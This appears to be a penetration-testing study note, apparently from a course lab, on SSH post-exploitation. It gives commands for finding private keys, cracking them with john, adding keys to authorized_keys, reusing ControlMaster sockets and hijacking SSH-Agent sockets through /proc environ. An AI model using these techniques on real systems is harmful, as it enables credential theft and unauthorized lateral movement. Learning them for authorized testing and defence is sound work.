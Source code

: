 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: SSH
---
```


<span style="font-size: 35px; color:red"><b>SSH</b></span>

Look for unprotected SSH Keys:
```shell
find /home/ -name "id_rsa"
```

Once find, <span style="color:red">cat id_rsa</span> to see if it's encrypted. The "DEK-Info" declare the type of encryption used.
If encrypted, use <span style="color:red">SSH2JOHN</span> to transform it into hash and crack it with john/hashcat:
```shell
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash
```
If cracked, add your id_rsa to the authoryzed_keys after you get the SSH shell.

Also, check the <span style="color:red">~/.bash_history_ file</span> or the <span style="color:red">~/.ssh/known_hosts</span> to see who connected recently (might be hashed, if so, nothing to do here).
&nbsp;
---
&nbsp;
<span style="font-size: 30px; color:white"><b>SSH Hijacking</b></span>

<span style="font-size: 25px; color:white"><b>With ControlMaster</b></span>
Use an existing ssh session using ControlMaster (functionality that allows a user to open multiple sessions).
Check <span style="color:red">~/.ssh/controlmaster/</span> to see if there's any socket in the form of <span style="color:red"><b>user@domain:22</span>
If so, you can use it like:
```shell
ssh -S /home/user/.ssh/controlmaster/user\@domain\:22 user@domain
```
no password required!
&nbsp;
---
&nbsp;
<span style="font-size: 25px; color:white"><b>With SSH-Agent</b></span>

SSH-Agent is a utility that keeps track of a user's private keys and allows them to be used without having to repeat their passphrases on every connection.
<span style="color:red">Client --> Intermediate Host --> Final Host</span>

Both Intermediate and Final Host need to have the same public key (<span style="color:red">ssh-copy-id -i ~/.ssh/id_rsa.pub user@domain</span> for both domains). 
- <span style="color:red">ForwardAgent yes</span> on <span style="color:red">~/.ssh/config</span>.
- <span style="color:red">AllowAgentForwarding yes</span> on <span style="color:red">/etc/ssh/sshd_config</span>.
- Start SSH_Agent: _eval <span style="color:red">ssh-agent</span>
- Add key to SSH-Agent: <span style="color:red">ssh-add</span>
Done, you can now connect to Intermediate Host and then from there to Final Host.
&nbsp;
---
&nbsp;
<span style="font-size: 25px; color:white"><b>Exploitation</b></span>
If there's a connection to the <span style="color:red">Intermediate Host</span>, then it's exploitable (check with <span style="color:red">ps aux | grep ssh</span>).
To get ID (PID) value for the SSH processes: <span style="color:red">pstree -p offsec | grep ssh</span>. (just chose one of them).
Cat the process out to find the <span style="color:red">SSH_AUTH_SOCK</span> variable: 
```shell
cat /proc/<PID>/environ
```
Then <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l</span> and <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh offsec@linuxvictim</span>


